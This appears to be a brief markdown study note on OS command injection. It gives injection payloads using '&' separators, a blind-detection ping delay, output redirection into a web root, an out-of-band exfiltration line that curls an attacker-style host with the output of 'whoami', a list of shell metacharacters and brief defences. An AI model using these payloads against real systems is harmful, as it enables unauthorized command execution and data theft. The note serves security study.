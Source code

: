 ## Command injection
- ``` & echo qwerty & ```
  - Placing & after the injected command is generally useful because it separates the injected command from whatever follows the injection point

## Blind OS command
- ### Detection
  - ``` & ping -c 10 127.0.0.1 & ```
    - 10 sec... time delay
- ### Exploit
  1)
      - Redirecting output -> (you must have write permission)
      - ``` & whoami > /var/www/static/whoami.txt & ```
      - ``` curl https://website.com/whoami.txt ```
  2)
      - Out-of-band techniques
      - ``` & curl `whoami`.webserver-attacker.com & ```

## Bypass restriction
- There are so many ways ...
  - https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

## Metacharacters
- Windows & Unix
  - &
  - &&
  - |
  - ||
- Unix
  - ;
- Unix inline execution 
  - \`command\`
  - $(command)

## Defences
- Whitelist of permitted values
- Validating that the input is a number
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace
- Never attempt to sanitize input by escaping shell metacharacters
